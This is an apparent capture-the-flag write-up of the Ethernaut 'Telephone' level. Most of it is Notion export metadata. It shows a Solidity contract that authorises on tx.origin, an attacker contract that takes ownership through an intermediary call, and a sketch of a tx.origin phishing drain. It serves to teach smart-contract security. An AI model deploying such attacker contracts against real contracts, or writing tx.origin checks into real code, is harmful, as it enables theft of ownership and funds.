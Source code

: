```yaml
---
title: "Telephone"
date: "2024-01-16"
lastmod: "2024-02-12T13:54:00.000Z"
draft: false
difficulty: "⭐"
weight: 4
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/4"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "8b2069f0-beb0-45b6-9400-a28665c1d56c"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-12T13:54:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel4.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "FPYQ"
        name: "⭐"
        color: "gray"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text: []
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-01-16"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 4
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/4"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text: []
    type:
      id: "s%7DKc"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "docs"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "docs"
          href: null
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Telephone"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Telephone"
          href: null
  url: "https://www.notion.so/Telephone-8b2069f0beb045b69400a28665c1d56c"
  public_url: null
UPDATE_TIME: "2024-02-12T14:33:29.420Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


Claim ownership of the contract below to complete this level.


Things that might help

- See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```


This is one is pretty straight forward, here is the attacker contract we can deploy:


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
  function changeOwner(address _owner) external;
}

contract CoinFlipAttack {

   Telephone telephone;

  constructor(address target) {
    telephone = Telephone(target);
  }

  function attack() public {
    telephone.changeOwner(msg.sender);
  }
}
```


While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).


An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```text
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}

```

1. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```text
function () payable {
  token.transfer(attackerAddress, 10000);
}

```

1. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.
